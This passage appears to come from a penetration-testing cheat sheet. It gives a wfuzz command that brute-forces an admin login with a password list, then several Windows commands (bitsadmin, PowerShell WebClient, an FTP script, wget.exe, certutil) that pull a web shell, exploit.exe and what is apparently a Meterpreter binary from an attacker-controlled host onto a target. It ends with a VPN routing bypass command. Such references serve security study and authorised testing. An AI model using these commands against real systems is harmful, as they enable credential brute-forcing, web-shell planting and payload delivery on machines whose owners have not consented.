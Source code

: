 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
bash
</pre>

<a name="windowstransfer"></a><h3> Windows File Transfer </h3>

<b>bitsadmin</b>

`bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php`

<b>cscript wget.vbs (code on the repo)</b>

`cscript wget.vbs http://<ip>/test.txt test.txt`

<b>powershell</b>

`powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"`

<b>ftp</b>

client:

<pre>
echo open [ip] [port] > ftpscript.txt
echo anonymous>> ftpscript.txt
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt
</pre>

server:

<code>python -m pyftpdlib  --port=2121 --write</code>

<b>wget.exe</b>

Upload to vulnerable server from kali: ` /usr/share/windows-binaries/wget.exe`

`wget.exe http://<ip>/file file`

<b> certutil </b>

`certutil -urlcache -split -f  https://<ip>/file.txt file.txt`
  
<a name="vpnrestrict"></a><h3> Bypass VPN routing restrictions </h3>

<pre>openconnect vpnXXX02.XXXX.com -u XX -s ‘vpn-slice XXX.46.0.0/16 hostname3 mantis=XXX.46.224.68’</pre>

![vpn](https://user-images.githubusercontent.com/7115563/34785073-5f76d2ce-f630-11e7-9acb-2fbe9e74494b.png)

Reference: https://github.com/dlenski/vpn-slice



